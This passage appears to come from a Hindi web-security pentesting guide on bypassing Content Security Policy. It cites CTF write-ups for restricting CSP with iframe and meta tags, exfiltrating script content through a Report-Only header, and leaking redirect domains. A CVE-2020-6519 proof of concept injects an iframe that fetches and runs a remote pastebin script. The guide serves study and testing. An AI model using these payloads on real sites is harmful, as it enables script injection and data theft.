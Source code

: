 ### CSP बायपास द्वारा CSP को प्रतिबंधित करना

[**इस CTF लेखन में**](https://github.com/google/google-ctf/tree/master/2023/web-biohazard/solution), CSP को एक अनुमत iframe के अंदर एक अधिक प्रतिबंधात्मक CSP को इंजेक्ट करके बायपास किया गया है जो एक विशिष्ट JS फ़ाइल को लोड करने की अनुमति नहीं देता है, जो फिर, **प्रोटोटाइप प्रदूषण** या **DOM क्लॉबरिंग** के माध्यम से **एक अलग स्क्रिप्ट का दुरुपयोग करके एक मनमाना स्क्रिप्ट लोड करने की अनुमति देता है**।

आप **`csp`** विशेषता के साथ एक iframe के CSP को **प्रतिबंधित** कर सकते हैं:

{% code overflow="wrap" %}
```html
<iframe src="https://biohazard-web.2023.ctfcompetition.com/view/[bio_id]" csp="script-src https://biohazard-web.2023.ctfcompetition.com/static/closure-library/ https://biohazard-web.2023.ctfcompetition.com/static/sanitizer.js https://biohazard-web.2023.ctfcompetition.com/static/main.js 'unsafe-inline' 'unsafe-eval'"></iframe>
```
{% endcode %}

[**इस CTF लेख**](https://github.com/aszx87410/ctf-writeups/issues/48) में, **HTML इंजेक्शन** के माध्यम से **CSP** को अधिक **सीमित** करना संभव था, जिससे CSTI को रोकने वाला एक स्क्रिप्ट अक्षम हो गया और इसलिए **कमजोरी का लाभ उठाया जा सका।**\
CSP को **HTML मेटा टैग** का उपयोग करके अधिक सीमित किया जा सकता है और इनलाइन स्क्रिप्ट को अक्षम किया जा सकता है **उनके** **nonce** को अनुमति देने के लिए **प्रवेश** को **हटाकर** और **sha के माध्यम से विशिष्ट इनलाइन स्क्रिप्ट को सक्षम करके**:
```html
<meta http-equiv="Content-Security-Policy" content="script-src 'self'
'unsafe-eval' 'strict-dynamic'
'sha256-whKF34SmFOTPK4jfYDy03Ea8zOwJvqmz%2boz%2bCtD7RE4='
'sha256-Tz/iYFTnNe0de6izIdG%2bo6Xitl18uZfQWapSbxHE6Ic=';">
```
### JS exfiltration with Content-Security-Policy-Report-Only

यदि आप सर्वर को **`Content-Security-Policy-Report-Only`** हेडर के साथ **आपके द्वारा नियंत्रित मान** के साथ प्रतिक्रिया देने में सफल होते हैं (शायद CRLF के कारण), तो आप इसे अपने सर्वर की ओर इंगित कर सकते हैं और यदि आप **JS सामग्री** को **`<script>`** के साथ लपेटते हैं और क्योंकि CSP द्वारा `unsafe-inline` की अनुमति नहीं है, तो यह **CSP त्रुटि** को **प्रेरित** करेगा और स्क्रिप्ट का एक भाग (संवेदनशील जानकारी वाला) `Content-Security-Policy-Report-Only` से सर्वर पर भेजा जाएगा।

उदाहरण के लिए [**इस CTF लेख को देखें**](https://github.com/maple3142/My-CTF-Challenges/tree/master/TSJ%20CTF%202022/Nim%20Notes).

### [CVE-2020-6519](https://www.perimeterx.com/tech-blog/2020/csp-bypass-vuln-disclosure/)
```javascript
document.querySelector('DIV').innerHTML="<iframe src='javascript:var s = document.createElement(\"script\");s.src = \"https://pastebin.com/raw/dw5cWGK6\";document.body.appendChild(s);'></iframe>";
```
### CSP और Iframe के साथ जानकारी लीक करना

* एक `iframe` बनाया जाता है जो एक URL (मान लेते हैं `https://example.redirect.com`) की ओर इशारा करता है जिसे CSP द्वारा अनुमति दी गई है।
* यह URL फिर एक गुप्त URL (जैसे, `https://usersecret.example2.com`) की ओर रीडायरेक्ट करता है जो CSP द्वारा **अनुमति नहीं दी गई** है।
* `securitypolicyviolation` इवेंट को सुनकर, कोई `blockedURI` प्रॉपर्टी को कैप्चर कर सकता है। यह प्रॉपर्टी ब्लॉक किए गए URI के डोमेन को प्रकट करती है, जिससे प्रारंभिक URL द्वारा रीडायरेक्ट किए गए गुप्त डोमेन का लीक होना होता है।
